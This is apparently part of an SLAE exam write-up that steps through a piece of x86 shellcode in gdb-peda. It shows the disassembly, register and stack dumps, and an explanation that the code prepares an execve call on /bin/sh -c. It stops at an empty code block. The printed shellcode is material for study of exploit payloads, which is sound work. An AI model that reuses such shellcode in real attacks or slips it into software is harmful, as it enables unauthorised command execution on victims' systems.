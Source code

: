 ```nasm
   0x0804a042 <+2>:	pop    eax
   0x0804a043 <+3>:	cdq    
   0x0804a044 <+4>:	push   edx
   0x0804a045 <+5>:	pushw  0x632d
   0x0804a049 <+9>:	mov    edi,esp
   0x0804a04b <+11>:	push   0x68732f
   0x0804a050 <+16>:	push   0x6e69622f
   0x0804a055 <+21>:	mov    ebx,esp
   0x0804a057 <+23>:	push   edx
   0x0804a058 <+24>:	call   0x804a060 <code+32>
   0x0804a05d <+29>:	ins    BYTE PTR es:[edi],dx
   0x0804a05e <+30>:	jae    0x804a060 <code+32>
   0x0804a060 <+32>:	push   edi
   0x0804a061 <+33>:	push   ebx
   0x0804a062 <+34>:	mov    ecx,esp
   0x0804a064 <+36>:	int    0x80
   0x0804a066 <+38>:	add    BYTE PTR [eax],al
End of assembler dump.
```
Our point of interest is the syscall at 0x0804a064.\
We can step through to watch how the syscall is set up.
```nasm
[----------------------------------registers-----------------------------------]
EAX: 0xb ('\x0b')
EBX: 0x0 
ECX: 0x7fffffea 
EDX: 0xb7fba870 --> 0x0 
ESI: 0xb7fb9000 --> 0x1b1db0 
EDI: 0xb7fb9000 --> 0x1b1db0 
EBP: 0xbfffeff8 --> 0x0 
ESP: 0xbfffefdc --> 0x8048479 (<main+62>:	mov    eax,0x0)
EIP: 0x804a043 --> 0x68665299
EFLAGS: 0x282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x804a03d:	add    BYTE PTR [eax],al
   0x804a03f:	add    BYTE PTR [edx+0xb],ch
   0x804a042 <code+2>:	pop    eax
=> 0x804a043 <code+3>:	cdq    
   0x804a044 <code+4>:	push   edx
   0x804a045 <code+5>:	pushw  0x632d
   0x804a049 <code+9>:	mov    edi,esp
   0x804a04b <code+11>:	push   0x68732f
[------------------------------------stack-------------------------------------]
0000| 0xbfffefdc --> 0x8048479 (<main+62>:	mov    eax,0x0)
0004| 0xbfffefe0 --> 0x1 
0008| 0xbfffefe4 --> 0xbffff0a4 --> 0xbffff28a ("/home/pwoer/SLAE/exam_docs/shellcode2")
0012| 0xbfffefe8 --> 0xbffff0ac --> 0xbffff2b0 ("XDG_VTNR=7")
0016| 0xbfffefec --> 0x804a040 --> 0x99580b6a 
0020| 0xbfffeff0 --> 0xb7fb93dc --> 0xb7fba1e0 --> 0x0 
0024| 0xbfffeff4 --> 0xbffff010 --> 0x1 
0028| 0xbfffeff8 --> 0x0 
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
0x0804a043 in code ()
gdb-peda$
```
push byte 0xb\
pop eax\
EAX will be the syscall number -> 0xb means that we are calling execve
```c
int execve(const char *filename, char *const argv[], char *const envp[]);
```
Our next instructions:
```nasm
```